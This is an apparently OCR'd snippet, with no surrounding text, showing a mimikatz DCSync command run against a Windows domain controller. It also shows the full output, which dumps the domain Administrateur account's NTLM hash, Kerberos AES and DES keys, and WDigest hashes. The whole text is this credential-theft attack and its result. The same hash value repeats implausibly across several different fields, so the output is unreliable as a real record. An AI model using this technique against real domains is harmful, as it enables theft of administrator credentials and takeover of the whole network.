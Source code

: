 ``` text

mimikatz # lsadump::dcsync /domain:domain.local /user:Administrateur
[DC] 'domain.local' will be the domain
[DC] 'SRV0025.domain.local' will be the DC server
[DC] 'Administrateur' will be the user account

Object RDN           : administrateur

** SAM ACCOUNT **

SAM Username         : administrateur
User Principal Name  : administrateur@domain.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 01:00:00
Password last change : 17/05/2012 22:09:50
Object Security ID   : S-1-5-21-1862828983-16086927-1213
Object Relative ID   : 1213

Credentials:
  Hash NTLM: 070ea7d2c59721b48937ce92ab2b87c5
    ntlm- 0: 070ea7d2c59721b48937ce92ab2b87c5
    lm  - 0: 070ea7d2c59721b48937ce92ab2b87c5

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOMAIN.LOCALadministrateur
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a48d804e7c446992315bd77e8a241d3df67c6294636c5c5
fba826a87aa49309d
      aes128_hmac       (4096) : 070ea7d2c59721b48937ce92ab2b87c5
      des_cbc_md5       (4096) : 51a34b2cbec403dc

* Primary:Kerberos *
    Default Salt : domain.localadministrateur
    Credentials
      des_cbc_md5       : 51a34b2cbec403dc

* Packages *
    Kerberos-Newer-Keys

* Primary:WDigest *
    01  070ea7d2c59721b48937ce92ab2b87c5
    02  070ea7d2c59721b48937ce92ab2b87c5
    03  070ea7d2c59721b48937ce92ab2b87c5
    04  070ea7d2c59721b48937ce92ab2b87c5
    05  070ea7d2c59721b48937ce92ab2b87c5
    06  070ea7d2c59721b48937ce92ab2b87c5
    07  070ea7d2c59721b48937ce92ab2b87c5
    08  070ea7d2c59721b48937ce92ab2b87c5
    09  070ea7d2c59721b48937ce92ab2b87c5
    10  070ea7d2c59721b48937ce92ab2b87c5
    11  070ea7d2c59721b48937ce92ab2b87c5
    12  070ea7d2c59721b48937ce92ab2b87c5
    13  070ea7d2c59721b48937ce92ab2b87c5
    14  070ea7d2c59721b48937ce92ab2b87c5
    15  070ea7d2c59721b48937ce92ab2b87c5
    16  070ea7d2c59721b48937ce92ab2b87c5
    17  070ea7d2c59721b48937ce92ab2b87c5
    18  070ea7d2c59721b48937ce92ab2b87c5
    19  070ea7d2c59721b48937ce92ab2b87c5
    20  070ea7d2c59721b48937ce92ab2b87c5
```